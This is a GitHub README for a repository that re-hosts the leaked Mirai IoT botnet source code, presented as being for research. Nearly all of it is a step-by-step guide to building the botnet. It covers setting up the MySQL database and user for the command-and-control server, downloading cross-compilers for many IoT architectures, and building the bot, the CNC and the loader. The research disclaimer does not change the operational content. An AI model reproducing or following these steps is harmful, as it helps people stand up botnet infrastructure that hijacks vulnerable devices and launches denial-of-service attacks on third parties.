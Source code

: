 # Mirai BotNet is Tashiro
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code.

## Requirements
* To be able to use vi.
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution. 

## Install
```
# apt-get install git gcc golang electric-fence mysql-server mysql-client
# git clone https://github.com/jgamblin/Mirai-Source-Code-plus
# cd Mirai-Source-Code-plus/scripts
# service mysql start
# cat db.sql | mysql -uroot -proot
```
Add users to mysql. 
```
# mysql -uroot -proot mirai
> INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
> exit
```
Cross Compile
```
# cd .. && mkdir cross-compile-bin
# cd cross-compile-bin

# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i686.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-x86_64.tar.bz2

# cd ../scripts
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
Build bot and CNC
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
In mirai folder, run build.sh script
```
# cd ../mirai
# ./build.sh debug telnet
```
Build loader
```
# cd ../loader
# ./build.sh
```
This completes the installation.
